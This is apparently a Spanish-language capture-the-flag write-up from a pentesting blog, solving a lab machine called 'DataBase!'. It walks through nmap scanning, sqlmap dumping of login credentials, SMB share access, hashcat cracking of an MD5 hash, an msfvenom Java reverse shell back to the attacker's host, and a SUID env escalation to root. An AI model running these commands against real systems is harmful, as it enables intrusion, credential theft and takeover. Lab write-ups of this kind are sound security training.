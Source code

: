 ```yaml
---
layout: page
title:  "DataBase!"
date:    2024-11-30 14:14:17 -0500
categories: Pentesting
---
```



iniciamos la maquina 

![Descripción de la imagen](/imagenes/pasted_image_20241129171203.png)

escaneamos puertos con nmap  `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2` 
 
![[Pasted image 20241129171313.png]](/imagenes/Pasted%20image%2020241129171313.png)

entramos a la dirrecion desde el navegador 

![[Pasted image 20241129171346.png]](/imagenes/Pasted%20image%20241129171346.png)

buscamos si el login tiene alguna vulneravilidad sql `sqlmap -u http://172.17.0.2:80/index.php --dbs --forms` 

![[Pasted image 20241129171558.png]](/imagenes/Pasted%20image%2020241129171558.png)

encontramos bases de datos que exploraremos 
 `sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables` 
 
 ![[Pasted image 20241129171705.png]](/imagenes/Pasted%20image%2020241129171705.png)
 
 `sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables -T users --columns --batch`
 
 ![[Pasted image 20241129171823.png]](/imagenes/Pasted%20image%202024112917182.png)
 
`sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables -T users --columns -C username,passwd --batch --dump`

![[Pasted image 20241129171940.png]](/imagenes/Pasted%20image%2020241129171940.png)

con las credenciales encontradas probamos en el login 

![[Pasted image 20241129172039.png]](/imagenes/Pasted%20image%2020241129172039.png)

en nmap observamos que esta base de datos corria en samba asi que hacemos uso de smbmap `smbmap -H 172.17.0.2 -u 'dylan' -p 'KJSDFG789FGSDF78'`

![[Pasted image 20241129172223.png]](/imagenes/Pasted%20image%2020241129172223.png)

tenemos permisos de lectura y escritura en shared `smbclient -U 'dylan' //172.17.0.2/shared` 

![[Pasted image 20241129172319.png]](/imagenes/Pasted%20image%2020241129172319.png)

con el comando get descargamos el archivo txt que encontramos de nombre augustus,txt

![[Pasted image 20241129172409.png]](/imagenes/Pasted%20image%2020241129172409.png)

vemos que es un tipo de hash procedemos a identificar y decifrar 

![[Pasted image 20241129172508.png]](/imagenes/Pasted%20image%2020241129172508.png)

`echo "061fba5bdfc076bb7362616668de87c8" > hashes.txt   ---  hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`

![[Pasted image 20241129172730.png]](/imagenes/Pasted%20image%2020241129172730.png)

entramos mediante ssh con el usuario augustus y la contrasena obtenida  `ssh -p22 augustus@172.17.0.2` 

![[Pasted image 20241129172918.png]](/imagenes/Pasted%20image%2020241129172918.png)

usamos msfvenom para hacernos una revershell ya que el usuario dylan puede ejecutar codigo java 
 `msfvenom -p java/shell_reverse_tcp LHOST=<tu-ip> LPORT=4444 -f jar -o shell.jar`
 nos colocamos en escucha y luego ejecutamos nuestro archivo desde el usuario augustus 
 
 ![[Pasted image 20241129173148.png]](/imagenes/Pasted%20image%2020241129173148.png)
 
  con este comando subes tu archivo jar a la maquina victima `scp <archivo> augustus@172.17.0.2:/tmp` luego ejecutas `sudo -u dylan /usr/bin/java -jar /tmp/shell.jar`
  
  ![[Pasted image 20241129173519.png]](/imagenes/Pasted%20image%2020241129173519.png)
  
  le das tratamiento a la tty para tener la interfaz dylan `script /dev/null -c bash`
 luego para buscar los recursos que ejecuta el usuario  `find / -perm -4000 2>/dev/null`
 ya puedes observar que tienes permiso en la ruta env `/usr/bin/env /bin/sh -p`
 y listo eres root 
 
![[Pasted image 20241129173801.png]](/imagenes/Pasted%20image%2020241129173801.png)


   


